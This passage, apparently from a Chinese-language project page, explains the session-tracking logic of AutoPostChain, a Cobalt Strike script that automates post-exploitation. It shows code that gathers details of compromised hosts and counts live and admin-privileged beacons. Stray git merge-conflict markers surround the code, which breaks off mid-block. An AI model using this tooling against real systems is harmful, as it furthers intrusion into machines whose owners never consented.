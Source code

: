 那么普通用户权限的数量就可以用变量 z 来进行统计：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
$z = $x - $y
```

因此 AutoPostChain 实现存活的权限判断逻辑如下：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
on beacon_initial {

    bsleep($1, $sleepTime);
    blog($1,"\c9Automated Post Exploitation Chain (@lintstar)"); 

    # 获取主机信息
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $processName = replace(beacon_info($1, "process"), " ", "_");
    $pidName = replace(beacon_info($1, "pid"), " ", "_");
    $archName = replace(beacon_info($1, "arch"), " ", "_");

###### 存活逻辑判断

    $x = 0;
    $y = 0;
    $z = 0;

    foreach $bid (beacon_ids()) {

        # bid 遍历主机信息信息
        $inIP = replace(beacon_info($bid, "internal"), " ", "_");
        $uName = replace(beacon_info($bid, "user"), " ", "_");
        $prName = replace(beacon_info($bid, "process"), " ", "_");
        $piName = replace(beacon_info($bid, "pid"), " ", "_");
        $hName = replace(beacon_info($bid, "computer"), " ", "_");
        $lastTime = replace(beacon_info($bid, "last"), " ", "_");

        # if ($lastTime <= 60000) {
        if (-isactive $bid && $lastTime <= 60000) {

            @ip[$x] = $inIP;
            @pid[$x] = $piName;
            @pro[$x] = $prName;
            @last[$x] = $lastTime;
            @un[$x] = $uName;

            # 如果遍历的 hName 与当前会话的 computerName 相同，则 x+1
            if ($hName eq $computerName && $inIP eq $internalIP) {
            # if ($inIP eq $internalIP) {
                $x = $x + 1;

                # 如果为管理员权限，则 y+1
                if (-isadmin $bid) {
                    $y = $y + 1;
                }
```
